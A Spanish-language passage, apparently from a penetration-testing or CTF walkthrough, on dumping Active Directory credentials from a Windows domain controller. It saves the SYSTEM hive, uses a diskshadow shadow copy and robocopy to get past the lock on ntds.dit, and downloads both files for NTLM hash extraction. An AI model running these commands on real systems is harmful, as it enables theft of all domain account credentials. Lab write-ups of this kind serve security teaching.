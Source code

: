 ```bash
cd C:\
mkdir Temp
cd Temp
reg save HKLM\system system
```

Aqui hacemos una copia del systema que es necesario para posteriormente dumpear los hashes NTLM del fichero 
```bash
 ntds.dit 
```
. Intentamos copiar 
el fichero 
```bash
 ntds.dit 
```


```bash
copy C:\Windows\NTDS\ntds.dit ntds.dit
#Output
PermissionDenied!
```

Teniendo este privilegio y siguiendo la guia de la web [pentestlab](https://pentestlab.blog/tag/diskshadow/) podemos tirando de robocopy en vez de
copy, copiarnos este fichero. Creamos un fichero llamado example.txt y le ponemos los comandos siguientes.

```bash
set context persistent nowriters 
add volume c: alias savialias 
create 
expose %savialias% z:
```

> [ ! ] NOTAS: Hay que tener cuidado con estos ficheros que enviamos en maquinas windows de siempre poner un espacio al final de cada linia para evitar problemas

```bash
dos2unix example.txt
```

y desde la maquina victima, subimos el fichero

```bash
upload example.txt
diskshadow.exe /s example.txt
```

Ya podemos ver que en Z:\ hay el mismo contenido que en C:\ y si tratamos de copiar el fichero ntds.dit con el comando 
```bash
 copy z:\Windows\NTDS\ntds.dit ntds.dit 
```
 
nos arastra el mismo error. Pero usando del comando robocopy esto funcciona sin problemas.

```bash
robocopy z:\Windows\NTDS . ntds.dit
download ntds.dit
download system
```
